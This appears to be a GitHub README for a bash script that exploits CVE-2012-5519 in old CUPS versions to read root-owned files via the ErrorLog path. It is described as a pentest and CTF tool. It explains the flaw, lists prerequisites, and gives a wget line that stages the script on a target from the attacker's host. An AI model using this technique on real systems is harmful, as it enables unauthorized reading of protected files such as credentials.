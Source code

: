 # CVE-2012-5519

cups-root-file-read.sh | CVE-2012-5519

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/p1ckzi](https://github.com/p1ckzi) |
| Url      | [https://github.com/p1ckzi/CVE-2012-5519](https://github.com/p1ckzi/CVE-2012-5519)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details><summary>Topic / Tags</summary></details>

## Readme

# cups-root-file-read.sh ⭐
a bash implementation of the metasploit 'cups\_root\_file_read.rb' module designed for pentesting and CTFs.  
mainly a short exercise in bash scripting. intended to be a self-contained program that exploits CVE-2012-5519 on linux systems;  
it provides the user with an interactive prompt, allowing them to quickly read multiple restricted files.

## the exploit - CVE-2012-5519 ❗
this script exploits a vulnerability in CUPS (common UNIX printing system) < 1.6.2.  
CUPS allows users within the lpadmin group to make changes to the cupsd.conf file, with the `cupsctl` command.  
this command also allows the user to specify an ErrorLog path.  
when the user visits the '/admin/log/error_log page', the cupsd daemon running with an SUID of root reads the ErrorLog path and echoes it in plain text.  
in short, files owned by the root user can be read if the ErrorLog path is directed there.

## prerequisites ✔
the script makes a number of checks before passing the prompt to the user; however all prerequisites include:  
- linux - the script has only been tested on linux and may not work on other operating systems.
- bash - cups-root-file-read.sh is written in bash.
- curl - (checked within script) used for requesting the webpage. there are currently no alternative http parsing commands built into the script such as `wget` or `nc` due to time limitations.
- vulnerable - (checked within script) there are a few checks made to make sure the vulnerability exists and whether the current user can exploit it, and therefore use the exploit script. these include being a member of the 'lpadmin' group, if the `cupsctl` command is available, etc...

## usage ℹ
it is assumed that the script will be used for the purposed of pentesting and CTF events. place the script on the target machine. this can be done in various ways. one common method from the target machine:
```
wget http://[my ip]:[my port]/cups-root-file-read.sh
```
cups-root-file-read.sh does not require any arguments or flags but has two optional ones:
```
./cups-root-file-read.sh -h

./cups-root-file-read.sh does not require any arguments to run.
it is currently interactive only.
usage: ./cups-root-file-read.sh [-a|--accessible] [-h|--help]
```
